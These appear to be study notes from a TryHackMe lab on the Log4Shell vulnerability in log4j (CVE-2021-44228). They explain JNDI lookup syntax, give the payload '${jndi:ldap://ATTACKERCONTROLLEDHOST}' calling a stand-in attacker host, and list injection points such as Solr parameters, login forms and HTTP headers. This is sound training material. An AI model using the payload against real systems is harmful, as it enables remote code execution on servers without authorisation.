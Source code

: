 # Log4j Notes

Reference: Notes taken from [Solar, exploiting log4j](https://tryhackme.com/room/solar)

On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package log4j. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this log4j version. This attack has been dubbed "Log4Shell"

For a growing community-supported list of software and services vulnerable to CVE-2021-44228, check out this GitHub repository:

- [Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files.

Some examples of this syntax are:

    ${sys:os.name}
    ${sys:user.name}
    ${log4j:configParentLocation}
    ${ENV:PATH}
    ${ENV:HOSTNAME}  
    ${java:version}

You may already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so:

    ${jndi:ldap://ATTACKERCONTROLLEDHOST}

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack.

Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol.

The next question is, where could we enter this syntax?: ***Anywhere that has data logged by the application.***

Unfortunately, it is very hard to determine where the attack surface is for different applications, and ergo, what applications are in fact vulnerable. Simply seeing the presence of log4j files doesn't clue in on the exact version number, or even where or how the application might use the package.

Consider the example in the TryHackMe Solar room, we already discovered that you could supply params to the /solr/admin/cores URL. We should understand that this is where you supply our inject syntax.  We can simply supply HTTP GET variables or parameters which will then processed and parsed by log4j. All it takes is this single line of text -- and that makes this vulnerability extremely easy to exploit.

Other locations you might supply this JNDI syntax:

- Input boxes, user and password login forms, data entry points within applications
- HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers
- **Any place for user-supplied data**

[More information on this JNDI attack vector, please review this Black Hat USA presentation from 2016](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

